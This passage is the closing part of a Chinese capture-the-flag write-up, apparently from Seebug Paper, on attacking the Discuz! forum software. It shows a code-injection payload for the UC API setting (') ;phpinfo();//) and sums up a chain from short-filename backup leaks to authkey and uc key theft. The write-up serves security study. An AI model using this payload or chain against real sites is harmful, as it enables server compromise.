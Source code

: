 修改uc api 为

```
http://127.0.0.1/uc_server');phpinfo();//
```

然后使用预先准备poc更新uc api

[![](https://p0.ssl.qhimg.com/dm/1024_447_/t01000fcb3baa222ea5.png)](https://p0.ssl.qhimg.com/dm/1024_447_/t01000fcb3baa222ea5.png)

这里返回11就可以了

[![](https://p5.ssl.qhimg.com/dm/1024_434_/t01017b838ce4176009.png)](https://p5.ssl.qhimg.com/dm/1024_434_/t01017b838ce4176009.png)



## 写在最后

整道题目主要围绕的DZ的核心密钥安全体系，实际上除了在windows环境下，几乎没有其他的特异条件，再加上短文件名问题原因主要在服务端，我们很容易找到备份文件，在找到备份文件之后，我们可以直接从数据库获得最重要的authkey和uc key，接下来的渗透过程就顺理成章了。

从这篇文章中，你也可以窥得在不同情况下利用方式得拓展，配合原文阅读可以获得更多的思路。



## REF
- [https://paper.seebug.org/1144/](https://paper.seebug.org/1144/)
- [https://lorexxar.cn/2020/01/14/css-mysql-chain/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB-with-%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%E6%B3%84%E9%9C%B2](https://lorexxar.cn/2020/01/14/css-mysql-chain/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB-with-%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6%E6%B3%84%E9%9C%B2)
- [https://lorexxar.cn/2017/08/31/dz-authkey/](https://lorexxar.cn/2017/08/31/dz-authkey/)
本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：

